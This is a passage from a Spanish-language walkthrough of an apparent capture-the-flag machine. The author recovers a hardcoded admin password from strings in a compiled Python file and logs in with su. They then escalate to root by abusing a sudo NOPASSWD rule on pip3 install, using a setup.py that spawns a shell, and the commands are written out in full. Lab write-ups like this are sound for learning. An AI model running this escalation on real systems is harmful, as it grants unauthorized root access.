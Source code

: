 Info:

```
adminz
p@$$w0r8321z
Authenticating...)
print)
usernameZ
password
        secret.py
auth
<module>
```

Aqui ya podremos identificar una posible contraseña del usuario `admin` que seria la siguiente:

```
User: admin
Password: p@$$w0r8321
```

Vamos a probarla haciendo esto:

```shell
su admin
```

Metemos como contraseña `p@$$w0r8321` y veremos que estamos dentro.

## Escalate Privileges

Si hacemos `sudo -l` veremos lo siguiente:

```
Matching Defaults entries for admin on cc0e0f1ace5f:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User admin may run the following commands on cc0e0f1ace5f:
    (ALL) NOPASSWD: /usr/bin/pip3 install *
```

Veremos que podemos ejecutar el binario `pip3` como el usuario `root` bajo cualquier archivo raiz, por lo que podremos realizar lo siguiente.

```shell
TF=$(mktemp -d)
echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
sudo pip3 install $TF
```

Info:

```
# whoami
root
```

Con esto veremos que ya seremos `root`, por lo que habremos terminado la maquina.
